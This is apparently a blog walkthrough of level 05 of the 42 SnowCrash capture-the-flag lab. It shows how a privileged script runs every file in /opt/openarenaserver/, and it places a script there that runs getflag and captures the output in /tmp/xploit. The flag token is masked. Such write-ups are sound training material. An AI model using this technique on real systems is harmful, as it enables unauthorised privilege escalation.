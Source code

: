 ```yaml
---
title: 42 SnowCrash Level05 - Walkthrough 👿
tags:
  - ctfs
  - snowcrash
  - 42project
  - services
categories:
  - ctfs
  - 42project
date: 2024-05-18 14:50:03
---
```



### Introduction

In level 05, we need to exploit a script (`openarenaserver`) that executes all scripts found in a specific directory (`/opt/openarenaserver/`). By placing a script containing the `getflag` command in this directory, we can obtain the flag.

### Steps:

1. **Finding Relevant Files:**
   First, we search for files owned by the user `flag05` and his group:

   ```sh
   level05@SnowCrash:~$ find / -user flag05 -group flag05 2>/dev/null
   /usr/sbin/openarenaserver
   /rofs/usr/sbin/openarenaserver
   ```

2. **Analyzing the Script:**
    We examine the contents of the openarenaserver script:

    ```sh
    level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
    ```
    The script iterates through all files in /opt/openarenaserver/, executes them with a time limit of 5 seconds, and then removes them.

3. **Exploiting the Script**:
    We create a script named xploit containing the getflag command in the /opt/openarenaserver/ directory:
    ```shell
    level05@SnowCrash:~$ echo "'getflag' > /tmp/xploit" > /opt/openarenaserver/xploit
    ```

4. **Monitoring the Result**:
    We watch the content of /tmp/xploit to capture the flag:
    ```shell
    level05@SnowCrash:~$ watch cat /tmp/xploit
    Every 2.0s: cat /tmp/xploit                                           Fri Oct 27 17:02:01 2023
    Check flag. Here is your token : ************************
    ```
    The flag is obtained by executing the getflag command within the openarenaserver script.

## Conclusion
By understanding the behavior of the openarenaserver script and exploiting its functionality to execute arbitrary commands placed in the /opt/openarenaserver/ directory, we successfully obtained the flag for level 05.
